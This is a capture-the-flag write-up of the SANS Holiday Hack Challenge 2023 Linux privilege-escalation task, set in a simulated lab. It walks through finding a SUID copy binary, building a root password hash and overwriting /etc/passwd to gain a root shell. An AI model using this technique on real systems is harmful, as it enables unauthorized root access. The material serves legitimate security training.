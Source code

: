 # SANS Holiday Hack Challenge 2023 - Linux PrivEsc

## Description

> Rosemold is in Ostrich Saloon on the Island of Misfit Toys. Give her a hand with escalation for a tip about hidden islands.

### Metadata

- Difficulty: 3/5
- Tags: `linux`, `cli`, `privesc`

## Solution

### Video

<iframe width="1280" height="720" src="https://www.youtube-nocookie.com/embed/LtHHYrNxOEw?start=635" title="SANS Holiday Hack Challenge 2023 - Linux Privesc" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

### Write-up

We get a simulated bash shell as `elf` user and our task is to escalate privileges to `root` and execute a binary in the `/root/` directory.

A typical Linux privilege escalation possibility is by finding a binary with the SETUID bit set, which means that if the binary is executed by anyone, it will run with as the owner. If the owner is `root` then it will be executed as `root`.

```shell
elf@3a9c01b680bd:~$ find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
-rwsr-xr-x 1 root root 85064 Nov 29  2022 /usr/bin/chfn
-rwsr-xr-x 1 root root 53040 Nov 29  2022 /usr/bin/chsh
-rwsr-xr-x 1 root root 55528 May 30  2023 /usr/bin/mount
-rwsr-xr-x 1 root root 44784 Nov 29  2022 /usr/bin/newgrp
-rwsr-xr-x 1 root root 67816 May 30  2023 /usr/bin/su
-rwsr-xr-x 1 root root 88464 Nov 29  2022 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39144 May 30  2023 /usr/bin/umount
-rwsr-xr-x 1 root root 68208 Nov 29  2022 /usr/bin/passwd
-rwsr-xr-x 1 root root 16952 Dec  2 22:17 /usr/bin/simplecopy
```

There is an interesting, uncommon binary: `/usr/bin/simplecopy`. With this binary we can copy files as `root` (this means rewriting too).

```shell
elf@3a9c01b680bd:~$ /usr/bin/simplecopy
Usage: /usr/bin/simplecopy <source> <destination>
```

Let's try to rewrite the original `/etc/passwd` file with a modified one where the password of the `root` user is set by us.

Let's create a password hash first.

```shell
$ openssl passwd -1 abcd1234
$1$aaKSCbOa$9xFvoWBfi3.1PjpX4vmub0
```

Copy the original `passwd` file and modify the first line so that it will contain the password hash.

```shell
elf@3a9c01b680bd:~$ /usr/bin/simplecopy /etc/passwd passwd

elf@3a9c01b680bd:~$ sed '0,/x/s//\$1\$aaKSCbOa$9xFvoWBfi3.1PjpX4vmub0/' passwd > new_passwd 

elf@3a9c01b680bd:~$ cat new_passwd 
root:$1$aaKSCbOa$9xFvoWBfi3.1PjpX4vmub0:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
elf:x:1000:1000::/home/elf:/bin/sh
```

Now, let's copy the modified `passwd` file and rewrite the original one.

```shell
elf@3a9c01b680bd:~$ /usr/bin/simplecopy new_passwd /etc/passwd
```

Now we know the `root` password and we can solve the challenge.

```shell
elf@3a9c01b680bd:~$ su root
Password: 
root@3a9c01b680bd:/home/elf# cd /root/
root@3a9c01b680bd:~# ls
runmetoanswer
root@3a9c01b680bd:~# ./runmetoanswer 
Who delivers Christmas presents?

> santa
Your answer: santa

Checking....
Your answer is correct!
```

> **Rose Mold (Ostrich Saloon)**:
*Yup, I knew you knew. You just have that vibe.
To answer your question of why from earlier... Nunya!
But, I will tell you something better, about some information I... found.
There's a hidden, uncharted area somewhere along the coast of this island, and there may be more around the other islands.
The area is supposed to have something on it that's totes worth, but I hear all the bad vibe toys chill there.
That's all I got. K byyeeeee.
Ugh... n00bs...*